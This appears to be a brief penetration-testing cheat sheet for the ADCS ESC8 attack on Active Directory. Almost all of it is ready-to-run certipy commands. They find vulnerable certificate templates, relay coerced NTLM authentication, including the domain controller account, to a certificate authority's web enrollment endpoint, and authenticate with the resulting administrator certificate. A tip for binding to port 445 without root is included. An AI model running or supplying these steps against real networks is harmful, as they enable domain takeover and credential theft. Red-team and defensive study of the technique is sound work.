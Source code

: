 # ADCS ESC8

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay \
    -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): `echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start`

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 5. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
